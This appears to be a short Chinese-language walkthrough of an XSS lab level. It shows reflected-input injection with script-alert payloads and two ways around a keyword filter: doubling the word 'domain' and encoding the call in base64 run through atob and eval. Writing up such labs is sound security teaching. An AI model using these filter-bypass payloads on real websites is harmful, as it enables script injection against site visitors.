 查看源码

```
<input type="text" name="p1" size="50" value="">
hello">; 
```

提交代码

```
"><script>alert(document.domain);</script>
```

> 发现没有回显

查看源码

```
<script>alert(document.);</script>
```

> 发现回显为 alert(document.)
>
> domain 被过滤

尝试提交双写代码

```
"><script>alert(document.dodomainmain);</script>
```

> 成功注入

**使用 base64 编码绕过**

构造 base64 编码

```
"><script>alert(document.domain);</script>
```

```
"><script>YWxlcnQoZG9jdW1lbnQuZG9tYWluKTs=</script>
```

> 需要加入解码函数 `atob("")` 和执行函数 `eval()`

构造解码函数

```
atob("YWxlcnQoZG9jdW1lbnQuZG9tYWluKTs=")
```

在控制台中提交

```
'alert(document.domain);'
```

> 成功解码

构造执行函数

```
eval(atob("YWxlcnQoZG9jdW1lbnQuZG9tYWluKTs="))
```
